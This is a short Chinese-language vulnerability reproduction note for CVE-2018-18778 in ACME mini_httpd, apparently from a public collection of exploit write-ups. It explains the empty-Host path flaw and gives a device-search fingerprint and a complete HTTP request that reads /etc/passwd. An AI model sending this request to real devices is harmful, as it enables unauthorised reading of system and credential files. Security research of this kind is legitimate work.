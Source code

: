 # 

# ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

## 漏洞描述

漏洞原因是由于没有过滤Http包头的特定字段，导致可以构造访问系统文件的路径，从而导致可访问任意文件，攻击者可以利用该漏洞读取设备的任意文件，这将严重威胁采用Mini_httpd的设备的安全性。

## 漏洞影响

```
ACME mini_httpd before 1.30
```

## 网络测绘

```
app="ACME-mini_httpd"
```

## 漏洞复现

指纹信息

![](./images/202205251634254.png)

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的HOST/FILE文件。

当`HOST=example.com、FILE=index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。

当`HOST为空、FILE=etc/passwd`的时候，上述语句结果为`/etc/passwd`。

```
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

发送请求包, 置空 host

```
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: http://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

![](./images/202205251635832.png)
